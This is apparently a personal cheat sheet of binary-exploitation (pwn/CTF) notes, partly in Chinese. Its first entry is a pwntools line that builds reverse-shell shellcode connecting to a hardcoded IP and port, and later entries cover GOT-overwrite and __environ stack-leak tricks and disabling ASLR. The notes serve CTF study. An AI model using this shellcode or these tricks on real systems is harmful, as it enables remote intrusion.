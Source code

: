 ## reverse shell - shellcode

`shellcode = asm(shellcraft.connect('112.74.38.118',6999)+shellcraft.dupsh())`

## LD_PRELOAD multi-lib
`export LD_PRELOAD = "A.so b.so"`

## mmap
`mmap(address,0x1000,0x7,0x22,0,0)`

## default buffer (STDOUT)
fllush by fill the buffer (which may be as large as 0xe00)

## Github Action
Permission denied.
`git update-index --chmod=+x ./.github/scripts/backend_decrypt.sh`


## Linux ncat 部署服务
ncat -vc ./test -l 1024

## 比特，字节，字，双字，四字

八个比特(Bit)称为一个字节（Byte），两个字节称为一个字（Word），两个字称为一个双字（Dword），两个双字称为一个四字（Qword）。
db byte
dw world
dd double-world
dq quad-world


## atoi()
将参数认为是str，小于0x30被认为是0
返回str代表的十进制int

## __environ
libc.symbols['__environ']上存着栈地址
只要泄露了libc地址就可以通过__environ 获得栈地址
在relro全开不能写got的时候就可以尝试通过控制执行流来控制程序

## trick for no_output
当没有直接泄露的时候
可以将可以控制参数函数A替换成输出函数B
主要做法是将A的got换成plt[B]+6
也就是相当于调用了B但是参数依旧是原来的参数

## Ubuntu 开关ASLR
sudo sh -c "echo 2 > /proc/sys/kernel/randomize_va_space


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/